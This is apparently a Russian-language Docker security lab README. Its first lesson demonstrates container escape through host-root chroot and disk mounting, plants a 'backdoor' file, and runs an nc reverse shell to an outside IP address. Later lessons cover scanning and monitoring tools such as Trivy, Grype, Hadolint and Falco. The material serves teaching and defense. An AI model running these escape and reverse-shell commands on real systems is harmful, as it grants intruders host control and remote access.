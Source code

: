 # Урок 1

Устанавливаем docker и docker-compose (если еще не установлены)

```
apt-get update && apt-get install docker.io && apt-get install docker-compose
apt-get install git
```
Клонируем репозиторий:


Запускаем "плохой контейнер":
```
cd bad_container
docker-compose up -d 
```

Запускаем контейнер "внутри контейнера":
```
docker run -v /:/host --rm -it ubuntu chroot /host bash
```

Реверс шелл:
```
nc -lvnp 4444
```

```
rm -f /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc 213.148.10.215 4444 > /tmp/f
```

Запускаем "хороший контейнер":
```
cd good_container
docker-compose up -d 
```

Запускаем контейнер "внутри" контейнера:
```
docker run -v /:/host --rm -it ubuntu chroot /host bash
```

Реверс шелл:
```
nc -lvnp 4444
```

```
rm -f /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc 213.148.10.215 4444 > /tmp/f
```

Запускаем "очень плохой контейнер"
```
cd very_bad_container
docker-compose up -d 
```

```
mkdir /host_root
mount /dev/sda1 /host_root
echo "Backdoor installed!" > /host_root/tmp/backdoor.txt
```

Запускаем "очень хороший контейнер"
```
cd very_good_container
docker-compose up -d 
```

Проверяем
```
touch /tmp/testfile
chown appuser:appuser /tmp/testfile

date --set "2025-01-01"
```

CAP_SYS_TIME - отсутствует поэтому время изменить не удалось

# Урок 2
```
git clone https://github.com/docker/docker-bench-security.git
cd docker-bench-security
sudo sh docker-bench-security.sh
```

# Урок 3 

Trivy
Проверка образов
```
docker run --rm aquasec/trivy image <имя_образа>
```
Проверка конфигурации
```
docker run --rm -v $(pwd):/project aquasec/trivy config /project/Dockerfile
```

Grype
```
docker run --rm anchore/grype <имя_образа>
```

Hadolint
```
docker run --rm -i hadolint/hadolint < Dockerfile
```

Lesson 4
Falco
```
curl -fsSL https://falco.org/repo/falcosecurity-packages.asc | \
sudo gpg --dearmor -o /usr/share/keyrings/falco-archive-keyring.gpg

echo "deb [signed-by=/usr/share/keyrings/falco-archive-keyring.gpg] https://download.falco.org/packages/deb stable main" | \
sudo tee -a /etc/apt/sources.list.d/falcosecurity.list

sudo apt-get install apt-transport-https

apt-get update -y

FALCO_FRONTEND=noninteractive apt-get install -y falco
```